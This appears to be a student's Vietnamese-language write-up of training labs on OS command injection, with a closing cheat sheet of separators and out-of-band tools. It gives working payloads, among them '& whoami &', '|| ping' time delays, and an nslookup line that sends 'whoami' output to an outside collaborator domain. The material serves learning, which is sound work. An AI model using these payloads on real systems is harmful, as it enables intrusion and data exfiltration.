










# OS Command injection

## Lab: OS command injection, simple case

- Bài lab này mục tiêu của chúng ta là sẽ tấn công command injection vào phần `check stock` của trang web. Khi em thử tính năng `check stock` và bắt lại 1 req với burp em có được



- Với phần `productId` và `StoreId` em nghĩ có thể sửa để chèn thêm command vào. Ở đây em đã thử sửa `StoreId` thành 

```
& whoami & => %26%20whoami%20%26
```

- Để nó được trở thành value của param thì em sẽ phải sử dụng URL encoding cũng để phù hợp với trang web hơn.



## Lab: Blind OS command injection with time delays

- Bài này đã `blind command injection` tức là mọi kết quả dù là với query ban đầu đều không thể hiển thị kết quả lên màn hình. Từ đây em nghĩ phải sử dụng `time delay` để phát hiện xem code đã được thực thi hay chưa.

-Với một feedback cơ bản thì nó sẽ có param như bên dưới.



- Em sẽ chèn thêm command vào phần email tuy nhiên ở đây không sử dụng cú pháp `&` mà là cú pháp `||` 

> || ở đây sẽ thực hiện command ở đằng sau khi mà command đằng trước bị lỗi không thực hiện được

- Khi em sửa req với param của giá trị `email` thành 

```
ping -c 10 8.8.8.8 => %7c%7c%20ping%20-c%2010%208.8.8.8%20%7c%7c
```

- Thì sẽ execute được 10 lần ping rồi mới trả về kết quả nên nó sẽ lâu hơn



## Exploiting blind OS command injection by redirecting output

- Dạng bài này cũng giống như dạng blind trên vì khi ta nhập kết quả trang web chỉ trả về giá trị `successfully` chứ không hiển thị thêm bất cứ giá trị nào.


- Đầu tiên em vẫn sẽ tìm giá trị có thể  inject command vào.
Em sẽ sử dụng lệnh:

```
|| ping -c 10 8.8.8.8 || => %7c%7c%20ping%20-c%2010%208.8.8.8%20%7c%7c
```

- Hai giá trị `||` chỉ thực hiện khi command đằng trước chắc chắn sai thì command đằng sau sẽ thực hiện



- Em đã tìm được tại biến `email` có thể thực hiện `command injection`.



- Sau đó em sử dụng chức năng tìm ảnh `filename?image/image=whoami.txt` để đọc nội dung file.



## Lab: Blind OS command injection with out-of-band interaction

- Ở lab này họ có cho em biết là các yêu cầu gửi đi được thực hiện không đồng bộ nên có thể thông tin sẽ không được hiển thị hoặc không thể chuyển hướng đến các vị trí mà mình có thể truy cập.

- Em nghĩ sẽ sử dụng `Burp collab` để làm 1 máy chủ trung gian kiểm soát các request của em đến server.

- Sau khi test các chức năng của chức năng `submit feedback` em thấy mình có thể chèn inject vào phần `email`.

- Command của em sẽ là

```
|| nslookup 468qio1tiiveu1pxz0m2vpcqbhh85zto.oastify.com || => %7c%7c%20nslookup%20468qio1tiiveu1pxz0m2vpcqbhh85zto.oastify.com%20%7c%7c
```

- Sau đó em check ở trên `Burp Collab` và thấy tên miền DNS đã được trả về 



## Lab: Blind OS command injection with out-of-band data exfiltration

- Ở lab này họ có cho em biết là các yêu cầu gửi đi được thực hiện không đồng bộ nên có thể thông tin sẽ không được hiển thị hoặc không thể chuyển hướng đến các vị trí mà mình có thể truy cập.

- Tiếp tục sử dụng `Burp Collab` để làm 1 máy chủ trung gian kiểm soát các request của em đến server.

- Sau khi test các chức năng của chức năng `submit feedback` em thấy mình có thể chèn inject vào phần `email`.

- Em sẽ sử dụng command để có thể chèn luôn cả câu lệnh `whoami` vào phần hiển thị DNS của `nslookup`.

```
|| nslookup `whoami`.78dtkr3wklxhw4r013o5xsetdkjc72vr.oastify.com => %7c%7c%20nslookup%20%60whoami%60.78dtkr3wklxhw4r013o5xsetdkjc72vr.oastify.com%20%7c%7c%20|| 
```



- Kiểm tra `Burp collab` em đã thấy hiển thị được tên người dùng + server ở trong phần payload:
 


## Ways of injecting OS commands

- Một số cách để thực thi nhiều command cùng 1 lúc. Những kí tự phân tách lệnh này hoạt động trên cả Window và Unix:

```
& 
&&
|
||
```

- Một số kí tự phân tách lệnh chỉ hoạt động trên Unix:

```
;
Newline(\n or 0x0a)
```

- Một số cú pháp để thực thi command bên trong nó:

```
`inject command`
$(inject command)
```

## Blind Command Injection

### Out-Of-Band (OOB)

Sử dụng các câu lệnh làm việc với máy chủ:

- ping
- telnet
- curl
- wget
- nslookup
- dig
- trace
- netcat / nc
- ftp
- ssh

Máy chủ không có DNS, thì không phân giải được tên miền, sử dụng các lệnh làm việc với IP (ping).
Máy chủ không có kết nối Internet ra ngoài thì sử dụng các hàm làm `Sleep`.

> Một số trường hợp phải sử dụng đường dẫn tuyệt đối vì có thể các biến môi trường không hoạt động. Ví dụ, `/sbin/ping` thay cho `ping`.


